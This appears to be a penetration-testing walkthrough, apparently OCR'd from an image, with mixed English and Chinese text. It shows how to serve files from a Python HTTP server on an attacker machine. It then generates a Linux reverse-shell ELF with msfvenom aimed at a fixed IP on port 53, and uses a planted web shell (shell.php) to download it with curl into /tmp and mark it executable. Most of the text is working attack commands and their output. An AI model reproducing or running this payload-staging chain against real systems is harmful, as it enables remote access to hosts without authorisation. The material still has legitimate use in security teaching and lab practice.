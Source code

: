 Let's start with a HTTP server. The most common and convinent solution is using the builtin python tool.

```
python -m SimpleHTTPServer 9090
Serving HTTP on 0.0.0.0 port 9090 ...
```

Simply navigate to the directory with the file you want to transfer reside. And run the server, be careful, once run, all files in directory become accessible from the netwrok, so try recommanded to create dedicated folder for the time of sharing file.

```
127.0.0.1:9090
```

Unless we are operating as root user, there are bonds of restrictive area as we are not able to write into. As safe we are download files to `/tmp` or to `/var/tmp`, which should almost be writable. At the meantime, let's prepare simple reverse shell payload using `msfvenom`.

```
msfvenom -p linux/x64/shell_reverse_tcp lhost=192.168.139.130 lport=53 -f elf -o reverse53
```

```
└─/var/www/html/server# msfvenom -p linux/x64/shell_reverse_tcp lhost=192.168.139.130 lport=53 -f elf -o reverse53
[-] No platform was selected, choosing Msf::Module::Platform::Linux from the payload
[-] No arch selected, selecting arch: x64 from the payload
No encoder specified, outputting raw payload
Payload size: 74 bytes
Final size of elf file: 194 bytes
Saved as: reverse53
```

Let's then go to the final step and download file on the remote system to the `/tmp` directory.

```
python -m SimpleHTTPServer 9090
Serving HTTP on 0.0.0.0 port 9090 ...
```

在shell.php上执行：

```
curl http://192.168.139.130:9090/reverse53 -o /tmp/r
```

It seems that the shell was successfully downloaded.

```
python -m SimpleHTTPServer 9090
Serving HTTP on 0.0.0.0 port 9090 ...
192.168.139.130 - - [05/Apr/2019 09:59:36] "GET /reverse53 HTTP/1.1" 200 -
```

But before we run it, we need to make it executable.

在shell.php上执行：

```
chmod +x /tmp/r
```
